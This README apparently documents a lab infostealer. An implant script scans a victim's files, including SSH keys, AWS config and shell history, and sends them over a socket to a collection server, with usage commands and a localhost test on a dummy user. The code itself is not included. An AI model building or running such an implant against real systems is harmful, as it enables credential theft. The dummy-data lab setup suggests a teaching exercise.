# Infostealer Implant 

## Description:
This implant consists of two files: the malware implant and server. The malware implant (tmp363.py) scans a victim's systems for files and exfiltrate them to the server. The server (server363.py) accepts the data from each victim and write it on disk.

## Dependencies:
- cryptography (Fernet): key is hardcoded
- os
- sys
- io
- socket 
- zipfile 
- time

## Usage:
- 64 bit Kali Linux Virtual Machine
- On one server: python3 server363.py [IP_ADDRESS] [PORT_NUMBER]
- Another server: sudo python3 tmp363.py [IP_ADDRESS] [PORT_NUMBER]

## Example Run:
1) Create a dummy user: ex. victim1
```bash
sudo adduser victim1
```

2) Create data for dummy user
```bash
# make directories for data
sudo mkdir -p /home/victim1/.ssh /home/victim1/.aws /home/victim1/.config
# put in data in directories
ex. echo "TEST_PRIVATE_KEY" > /home/victim1/.ssh/id_rsa; echo "HIST123" | sudo tee /home/victim1/.bash_history > /dev/null
```

3) Test server and implant connection
```bash
# set server on one terminal
python3 server363.py [IP_ADDRESS] [PORT_NUMBER]
should be expecting: [*] Listening on 127.0.0.1:12345
# set up implant on another 
sudo python3 tmp363.py [IP_ADDRESS] [PORT_NUMBER]
# connection should be working from server terminal: [+] Connection from 127.0.0.1
```

4) After connecting a subdirectory should be made: 
ex format: YEAR-MONTH-DAY:TIME_[IP_ADDRESS]

5) after cd into it, run 'find .' and you should find:
./victim1/.ssh/id_rsa
./victim1/.bash_history

6) after using cat, you should find the contents made from that data
```bash
cat victim1/.bash_history: HIST123
cat victim1/.ssh/id_rsa: TEST_PRIVATE_KEY
```

7) Server should terminate gracefully after running ctrl + c




